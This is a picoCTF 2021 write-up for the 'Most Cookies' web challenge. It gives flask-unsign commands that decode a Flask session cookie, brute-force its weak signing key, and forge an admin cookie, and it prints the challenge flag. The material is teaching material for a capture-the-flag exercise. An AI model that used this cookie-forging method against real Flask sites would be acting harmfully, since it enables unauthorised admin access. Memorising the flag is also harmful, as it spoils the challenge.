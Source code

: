 # Most Cookies

## Information

- picoCTF 2021
- Web Exploitation
- 150 Points

## Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py) http://mercury.picoctf.net:52134/

## Hints

1. How secure is a flask cookie?

## Solution

Going to the website, we see a webpage simiar to that from [Cookies](/web-exploitation/cookies.md) and [More Cookies](/web-exploitation/more-cookies/more-cookies.md).

![initial webpage](images/initial.PNG)

Looking at the cookies, we can see there is one cookie called `session` with a value of `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZV2z-g.9HkNDtObatp7uABKX1DR-qLVopk`.

Since, this is generated using Flask, we can use a command line package called [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign) for this challenge.

To decode the session cookie, we can use either one of the following commands on a command line.

```bash
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZV2z-g.9HkNDtObatp7uABKX1DR-qLVopk'
```

This will output the following:

```bash
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZV2z-g.9HkNDtObatp7uABKX1DR-qLVopk
{'very_auth': 'blank'}
```

We now understand what the decrypted session cookie value. Now, we need to find the secret key, that the server is using to encrypt the session cookies. This can be found by creating a wordlist of all the different cookies as found in [server.py](/web-exploitation/most-cookies/server.py) and putting them into a [text file](/web-exploitation/most-cookies/wordlist.txt). Then we run the following command.

```bash
flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZV2z-g.9HkNDtObatp7uABKX1DR-qLVopk' --wordlist wordlist.txt
```

This will output the following:

```bash
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[*] Attempted (28): white ch[+] Found secret key after 28 attempts
'peanut butter'
```

Using the secret key of `peanut butter`, we can now modify the cookie to reveal the secret key. From `server.py`, we know that if we if the value is `{very_auth: admin}`, then it will reveal the flag.

```python
if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
```

Using this knowledge, we can create a new session value using the secret key.

```bash
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
```

This will give us the session value of:

```bash
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZV24FQ.NvlS-xAqAf1iwQ8C0ecc1T1DX6U
```

Modifying the value of cookie `session` and we should see the flag.

![flag](images/flag.PNG)

## Flag

picoCTF{pwn_4ll_th3_cook1E5_478da04c}
